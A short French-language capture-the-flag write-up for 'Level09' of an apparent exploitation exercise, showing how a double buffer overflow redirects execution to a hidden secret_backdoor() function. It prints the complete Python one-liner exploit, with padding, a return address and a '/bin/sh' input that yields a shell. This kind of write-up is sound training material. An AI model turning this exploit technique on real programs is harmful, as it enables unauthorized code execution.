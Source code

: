 # Level09:

Dans le code source on constate qu'il y a une fonction cachee appele `secret_backdoor()`, nous devons donc trouver le moyen de sauter sur cette fonction.

Nous pouvons faire un overflow sur le message grace a la valeur mise dans le 41eme octet du username:
Le deuxiemme buffer overflow a partir du 200eme char, il nous manque donc l'adresse de la fonction a exploiter que l'on peut retrouver comme suit:
![get_adress.png](./get_adress.png)


Notre exploit est donc le suivant:

(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n/bin/sh'" ; cat) | ./level09

On commence par overflow le premier buffer avec le 'A' * 40 et on ajoute le \xff pour permettre le second buffer,
en suite le deuxieme buffer est remplie avec les 'A' * 200 et on y ajoute l'adresse de `secret_backdoor()`.

Enfin on passe le `/bin/sh` au programme et on accede donc au shell du dernier niveau !

![finaly.png](./finaly.png)